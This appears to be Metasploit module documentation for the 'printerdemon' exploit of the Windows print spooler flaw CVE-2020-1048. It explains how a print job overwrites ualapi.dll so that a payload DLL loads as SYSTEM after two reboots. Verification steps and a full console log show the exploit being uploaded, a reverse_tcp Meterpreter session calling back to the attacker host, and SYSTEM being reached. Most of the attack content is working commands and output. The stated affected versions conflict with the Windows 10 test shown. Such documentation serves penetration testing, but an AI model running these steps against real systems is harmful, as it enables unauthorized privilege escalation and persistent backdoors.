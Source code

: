 ## Vulnerable Application

Vulnerable versions for exploit
All unpatched windows through version 2003

### Introduction

This exploit relies on a bug where you can create a virtual printer
and print to trusted locations on the filesystem.  If a user chooses the
default overwrite, it may create a permanent backdoor.

Basically, this exploit creates a print job that writes to a trusted
location.  By selecting the location ```C:\windows\system32\ualapi.dll```
we abuse the spooler service twice.  The spooler will print to this
location when it restarts, then it will load the DLL into itself when it
restarts a second time.  The DLL will then be running as ```SYSTEM```.

The main issue here is that the Spooler service does not like to stop.
Trying sc stop Spooler does not stop the spooler.
Killing the pid with a trusted process will kill it, but it restarts
automatically.
Using the pendingFileRenameOperations registry key also does not appear
to work.


```



## Verification Steps

 Start ```msfconsole```
 get session on a windows target that is not patched (and <= 2003)
 ```use windows/local/cve_2020_1048_printerdemon```
 ```set session <session>```
 ```set payload <payload>```
 ```set lhost <lhost>```
 ```set lport <lport>```
 ```run```
 Verify target reboots automagically if 
 reboot target again (yest it has to reboot again
 Verify you get a session

## Options

  **EXECUTE_DELAY**
  The time between uploading and running the exploit.  Default is 3
  seconds, but high-latency networks may require more time.

  **EXPLOIT_NAME**
  The name of the when it is uploaded to the target (%RAND% by default).
  
  **EXPLOIT_DIR**
  Directory to use for file upload and linking; this should not already
  exist. (%RAND% by default)

  **OVERWRITE_DLL**
  The remote location you would like to write to.  Default is
  ```C:\windows\system32\ualapi.dll```

  **PAYLOAD_NAME**
  The filename to use for the payload binary (%RAND% by default).
  This is the name of the dll payload when uploaded to the remote host.

  **RESTART_TARGET**
  This will restart the target to force the overwrite.  YOU WILL LOSE
  YOUR SESSION unless you have a method of persistence.
  The dll will not be run until a second reboot.

  **WRITEABLE_DIR**
  The directory to use the payload binary and uploaded payload.
  (%RAND% by default).

## Scenarios

### Tested on Windows10 x64 Release 1903

  ```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 2

[*] Started reverse TCP handler on 192.168.135.197:5555 
msf6 payload(windows/x64/meterpreter/reverse_tcp) > [*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 2 opened (192.168.135.197:5555 -> 192.168.132.134:49675) at 2020-08-24 12:15:07 -0500

msf6 payload(windows/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-CL5L2IH\msfuser
meterpreter > getsystem
[-] 2001: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 2...
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/local/cve_2020_1048_printerdemon 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2020_1048_printerdemon) > show options

Module options (exploit/windows/local/cve_2020_1048_printerdemon):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   EXECUTE_DELAY   3                yes       The number of seconds to delay between file upload and exploit launch
   EXPLOIT_NAME                     no        The filename to use for the exploit binary (%RAND% by default).
   OVERWRITE_DLL                    no        Filename to overwrite (%WINDIR%\system32\ualapi.dll by default).
   PAYLOAD_NAME                     no        The filename for the payload to be used on the target host (%RAND%.dll by default).
   RESTART_TARGET  true             yes       Restart the target after exploit (you will lose your session until a second reboot).
   SESSION         1                yes       The session to run this module on.
   WRITABLE_DIR                     no        Path to write binaries (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.197  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf6 exploit(windows/local/cve_2020_1048_printerdemon) > set verbose true
verbose => true
msf6 exploit(windows/local/cve_2020_1048_printerdemon) > set disablepayloadhandler false
disablepayloadhandler => false
msf6 exploit(windows/local/cve_2020_1048_printerdemon) > set wfsdelay 600
wfsdelay => 600
msf6 exploit(windows/local/cve_2020_1048_printerdemon) > run

msf6 exploit(windows/local/cve_2020_1048_printerdemon) > set session 2
session => 2
msf6 exploit(windows/local/cve_2020_1048_printerdemon) > run

[*] Started reverse TCP handler on 192.168.135.197:4444 
[*] Checking Target
[*] Attempting to PrivEsc on DESKTOP-CL5L2IH via session ID: 2
[*] Build Number = 18362
[*] Uploading Payload
[*] Payload (5120 bytes) uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\UCPNtlof
[!] This exploit requires manual cleanup of the payload C:\Users\msfuser\AppData\Local\Temp\UCPNtlof
[*] Sleeping for 3 seconds before launching exploit
[*] Uploading exploit to DESKTOP-CL5L2IH as C:\Users\msfuser\AppData\Local\Temp\JkrbEDShseh.exe
[*] Exploit uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\JkrbEDShseh.exe
[*] Running Exploit
[*] Exploit output:
Printer created successfully
[*] Rebooting DESKTOP-CL5L2IH
[*] 192.168.132.134 - Meterpreter session 2 closed.  Reason: Died
```

After the auto-reboot, reboot again.
The first reboot performs the overwrite; the second loads the dll.

```
[*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 3 opened (192.168.135.197:4444 -> 192.168.132.134:49669) at 2020-08-24 12:19:49 -0500

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```
